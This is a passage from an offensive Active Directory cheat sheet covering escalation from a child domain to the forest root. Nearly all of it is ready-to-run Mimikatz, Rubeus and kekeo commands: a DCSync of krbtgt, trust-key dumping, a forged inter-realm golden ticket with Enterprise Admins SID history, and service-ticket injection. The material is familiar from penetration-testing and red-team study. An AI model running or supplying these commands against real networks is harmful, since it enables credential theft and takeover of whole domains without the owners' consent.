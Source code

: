 #### Execute DCSync
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

## Child to Forest Root
### Trust key
- Abuses SID History
#### Dump trust keys
- Look for in trust key from child to parent (first command)
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### Create an inter-realm TGT
- Uses well know Enterprise Admins SIDS
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | select samaccountname, objectsid```
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

#### Create a TGS using Rubeus and inject current Powershell session
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<FQDN PARENT DC> /dc:<FQDN PARENT DC> /ptt
```

#### Create a TGS for a service (kekeo_old and new)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> <SERVICE>/<FQDN PARENT DC>
tgs::ask /tgt:<KIRBI FILE> /service:<SERVICE>/<FQDN PARENT DC>
```

#### Use TGS to access the targeted service (may need to run it twice) (kekeo_old and new)
```
./kirbikator.exe lsa .\<KIRBI FILE>
misc::convert lsa <KIRBI FILE>
```
